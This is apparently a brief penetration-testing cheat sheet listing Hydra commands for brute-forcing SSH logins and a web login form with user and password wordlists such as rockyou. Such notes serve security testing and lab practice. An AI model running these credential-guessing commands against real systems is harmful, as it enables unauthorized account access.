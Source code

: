 ## SSH

```bash
hydra -L users.txt -P pass.txt x.x.x.x ssh -V
hydra -C pass.txt x.x.x.x ssh -V
```

### Web-Post-Form

```bash
hydra -l kevin -P /opt/rockyou.txt 192.168.0.181 http-post-form "/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -VV -F -I
```